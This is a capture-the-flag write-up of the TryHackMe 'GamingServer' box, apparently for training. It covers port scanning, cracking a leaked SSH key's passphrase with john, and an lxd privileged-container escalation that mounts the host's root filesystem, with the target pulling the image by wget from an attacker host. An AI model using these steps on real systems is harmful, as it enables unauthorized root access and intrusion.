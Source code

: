 ```bash
# PLATFORM          . THM
# CTF NAME          . GamingServer
# DESCRIPTION       . An Easy Boot2Root box for beginners
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/gamingserver
```


```bash
sudo nmap -sSVC -T5 -p- 10.10.182.147 -oN gamingserver
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 340efe0612673ea4ebab7ac4816dfea9 (RSA)
|   256 49611ef4526e7b2998db302d16edf48b (ECDSA)
|_  256 b860c45bb7b2d023a0c756595c631ec4 (ED25519)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: House of danak
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- The main page contains a username in the source code

```
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->
```

- By navigating the website, we can find the `/uploads` directory by clicking on the `Dragaan Lore` button and then on `Uploads`. 

- Here we can find `dict.lst`,  the hacker's manifesto and `meme.jpg`.

- I fuzzed the webserver and found out that there's also `/secret` directory which holds the `secretKey` file, a private RSA key.

- However, `ssh -i secretKey john@10.10.182.147` asks for a passphase.

```
python3 ssh2john.py secretKey > crack

john -w=dict.lst crack
```


```
john@exploitable:~$ id

uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

- I knew that being in the `lxd` group could be leveraged to escalate privileges on the box but I didn't knew exactly the steps needed in order to do that, so I googled :)

- **LOCAL HOST**
```LOCAL_HOST
git clone https://github.com/saghul/lxd-alpine-builder

cd lxd-alpine-builder

sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine

sudo ./build-alpine -a i686

python3 -m http.server 80
```

**VICTIM**
```VICTIM
cd ~

wget http://attacker:port/alpine_image_name

# import the image
lxc image import ./alpine*.tar.gz --alias myimage

# It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default 
# default to all of them did the job for me, rename storage or whatever needed if default already exists. 
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh

cd /mnt/root
```

- The flag was in `/mnt/root/root/root.txt`
- The other flag was in `/home/john/user.txt
